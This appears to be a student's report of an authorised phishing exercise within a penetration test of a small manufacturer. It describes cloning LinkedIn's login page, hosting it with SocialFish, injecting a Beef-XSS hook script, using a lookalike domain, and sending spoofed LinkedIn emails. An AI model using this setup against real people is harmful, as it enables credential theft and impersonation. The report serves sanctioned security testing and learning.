





The goal of our group project is to research what is required from IT-Workz to start providing penetration test as a service. To do that, our
group was tasked with conducting multiple pen tests to select the core requirements.

We have started with establishing contact with Hoefnagels - a company specializing in manufacturing fire safety equipment. The company is quite
old and has been run by the same family since its inception. Since Hoefnagels is a rather small organization, they do not have a designated IT
department. They rely on a 3rd party that set up and does maintenance on their infrastructure.

The scope of the pen test focused on simulating an external threat and one of the goals was to conduct a phishing campaign. I have decided to
pick up this task and work on it together with other group member.

## Prerequisites

Our first goals while getting started were:

- Finding the appropriate technologies for hosting the malicious website.
- Coming up with a plausible scenario, so that the employees might click on the email.

I have decided to focus more on the first one and started researching different phishing tools. We wanted the tooling to give us the possibility
to extract credentials of the victims and to be able to plant a malicious file on their computers.

## Website

Based on our needs, I have decided to use a phishing framework that would aid me with hosting and managing the website. My choice fell on the
tool called [SocialFish](https://github.com/UndeadSec/SocialFish). SocialFish provided an easy way to host custom html websites and attaching some malicious JavaScript, as well as easy to use interface.

Moreover, we decided to use Beef-XSS - a framework which gives the attacker the possibility to control victim's browser, after delivering a
JavaScript payload.

The website had to be accessible from the internet, so I have decided to host it on a DigitalOcean's virtual machine which could handle
SocialFish and run some additional software.

## Initial deployment and HTTPS


We deployed our virtual machine, and I have started setting up the required software:

- SocialFish
- Beef-XSS
- Uncomplicated Firewall (UFW)
- LetsEncrypt bot

### SocialFish and Beef-XSS

SocialFish is an open source, Python software which allows users to maintain and run phishing campaigns. The application is open source, which
allowed me to customize the behavior of the server to tailor it to our needs.



I downloaded a copy of LinkedIn's log in page, and uploaded it to the virtual machine to use it as a custom phishing page. This allowed me to add a
a script tag which injects a Beef-XSS payload into the victim's browser.

```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```



Moreover, I used the Let's Encrypt certificate services to increase the legitimacy of my website. That way, the website seemed as if it was an actual
LinkedIn.

### Blocked domain and new website


However, few hours after deploying the website, I have discovered that the domain was blocked. Apparently Google's (probably) web crawlers flagged the
website as malicious, since the domain name was `linkedlin.ml` and it was a copy of the linkedin front page. Moreover, I was running Beef-XSS and
SocialFish, which most likely triggered the domain flagging.

This time, we have decided to apply a firewall on our droplet and whitelist Hoefnagels IP address that we obtained from the physical testing, as well as
 our home and school addresses. I have decided to use `UFW` which was preinstalled on that instance of the Ubuntu server.  
_I have blurred out the IP addresses since these are sensitive information_


The firewall now only allows the selected IP addresses to the port 443 running the website and port 7443 running a C2 server `covenant` which we planned
to use after compromising victims.

We had two phishing scenarios we planned to execute:

1. Sending a fake job application on their website with a link to our SocialFish server, disguised as a fake LinkedIn page.
2. Sending an email from our `linkedllin.ml` domain that imitates an email from LinkedIn.

For the job application scenario, we decided to apply to the job posting on their website at
_[this url](https://werkenbijhoefnagels.nl/sollicitatieformulier/114/sollicitatieformulier-1ste-Monteur-Meewerkend-Voorman-Montage-buitendienst/)_.
While Georgi created a fake LinkedIn account, I deployed the infrastructure and connected both SocialFish and Beef-XSS together. We sent the job
application and awaited their response.




While waiting for their answer, we decided to send messages to email addresses that we found during the OSINT phase. We tried deploying an email server
on our DigitalOcean virtual machine using [Mailcow](https://mailcow.email). However, due to security reasons, new accounts are not allowed to use port 25 to send emails.
Therefore, we have decided to use the following address: `noreply.linkedllin.ml@gmail.com`



This fake email impersonating LinkedIn emails was sent to the email addresses of the employees. However, majority of the emails were either blocked or non-existent.



### Conclusions

The phishing campaign has had its ups and downs. Not only did we not manage to send mass emails to all employes, nobody was gullible enough to input their credentials
into our fake landing page. This can be broken down into two conclusions:

**Conducting a succesful phishing campaign is a hard task.**

It requires good knowledge of managing IT infrastructure, such as firewalls, ssl certificates, DNS and email servers. Moreover fake domains can be easily targeted by the web
crawlers and flagged as malicious. And on top of that, the goal of these extensive preparations is to trick somebody into inputting their credentials on a fake webstie.

**Hoefnagels employees are phishing conscious**

Throughout the pen test, we kept in contact with the company. Even before we started our campaign, we heard that the employees reported that they started receiving
suspicious emails. The security assesment was kept secret, so the employees didn't fall for an actual attack. Our methods were a bit less successful and a bit more subtle,
but they still didn't fall for that.

All in all, I believe that if our group had more time to prepare for the phishing campaign (month or two), we would have been able to create a trusted email server,
conduct an  extensive OSINT and execute a mass mailing attack.
